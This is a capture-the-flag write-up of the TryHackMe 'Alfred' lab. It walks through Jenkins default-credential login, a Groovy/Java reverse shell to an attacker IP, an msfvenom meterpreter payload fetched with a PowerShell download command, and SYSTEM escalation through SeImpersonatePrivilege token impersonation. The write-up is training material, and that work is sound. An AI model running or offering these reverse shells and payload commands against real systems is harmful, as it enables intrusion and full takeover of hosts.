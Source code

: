 ```yaml
---
title: Alfred
date: 2024-02-24 10:00
categories: [ctf, security, hacking, exploits]
tags: [ctf, security, hacking, exploits]
---
```


# Overview
Alfred is a vulnerable machine from [TryHackMe](https://tryhackme.com) that requires some standard enumeration with abusing token impersonation. The foothold is accomplished after some enumeration of the web page after gaining access to the Jenkins portal, and the privilege escalation is done with exploiting impersonate privilege token. 

## Nmap Scan
sudo nmap -Pn -sS `<target ip>` -vvv
* 80/tcp   open  http   syn-ack ttl 125 
* 3389/tcp open  ms-wbt-server syn-ack ttl 125
* 8080/tcp open  http-proxy    syn-ack ttl 125

## Basic Enumeration
Checking the website, we see this has a backend for Jetty: `Jetty(9.4.z-SNAPSHOT)`

Nikto scan:
> Server: Microsoft-IIS/7.5

* Jenkins Login Server, on port 8080. 
    * We try good old admin:admin login.
    * It works, default/bad credentials gets us in.

Web page, we see an email, doesn't end up being useful, but still something to note.

* `alfred@wayneenterprises.com`

Wfuzz for web page directories.

> Port 80:
>> Nothing, dead end.

> Port 8080:
>> login, assets, logout, error, git, subversion, oops, cli

## Foothold
Looking through the Jekins console, we see a lot of different potential avenues to check for a foothold.

* We are able to find a script console, that allows you to pass groovy script to execute. 
* We can use a groovy reverse shell to gain a foothold.

```java
String host="10.13.50.64";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
We are able to get a shell back, and are user `alfred\bruce`.

* We have the `user.txt` flag.

![User](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/alfred/Alfred_User.png?raw=true)

## Local Enumeration
We have an unusual shell on the host, so switching to a more stable shell is usually a good choice. Meterpreter is pretty stable, so we drop a meterpreter reverse shell to make it easier to keep a connection. 

* `msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.13.50.64 LPORT=5555 -f exe -o rev.exe`
* Download payload onto the machine: `powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.13.50.64:8000/rev.exe','rev.exe')"`
* We also used msfconsole, running `exploit/multi/handler`, set your conditions.
* We have a new shell. 

Getting what privileges we have available (`get privs`) gives us a big list of options:
```
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```
All of these are enabled. The token we care about that is easy to abuse is the `SeImpersonatePrivilege` token.

## Impersonate Token
* Now we load incognito in our meterpreter shell, and we list out available tokens (`list_tokens -u/-g`).
* None of the user tokens are available for this impersonation abuse. 
* Listing out the group tokens shows a large number of tokens for use. 

```
BUILTIN\Administrators
BUILTIN\IIS_IUSRS
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\NTLM Authentication
NT AUTHORITY\SERVICE
NT AUTHORITY\This Organization
NT SERVICE\AudioEndpointBuilder
NT SERVICE\CertPropSvc
NT SERVICE\CscService
NT SERVICE\iphlpsvc
NT SERVICE\LanmanServer
NT SERVICE\PcaSvc
NT SERVICE\Schedule
NT SERVICE\SENS
NT SERVICE\SessionEnv
NT SERVICE\TrkWks
NT SERVICE\UmRdpService
NT SERVICE\UxSms
NT SERVICE\WdiSystemHost
NT SERVICE\Winmgmt
NT SERVICE\wuauserv
```

## Privilege Escalation
The group `BUILTIN\Administrators` is the group we are definitely interested in impersonating. We use `impersonate_token` in our shell to escalate privileges. 

* When we use getuid, we see that we are now `NT AUTHORITY\SYSTEM`. However, we are not done escalating yet. We do not have permissions to do things like making an interactive shell locally (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do).
* Since we cannot run `shell` to be able to get our root.txt, we need to migrate to another process that will allow us to have the right permissions. A process like `services.exe` is recommended to migrate to, list out proceses with `ps`.
    * `migrate <pid>`

After doing the migration, we can make a shell, and when we run `whoami`, we see that we are `NT AUTHORITY\SYSTEM`, and can read `root.txt`.

* It is in a different location, `C:\Windows\System32\config`.

![Root](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/alfred/Alfred_Root.png?raw=true)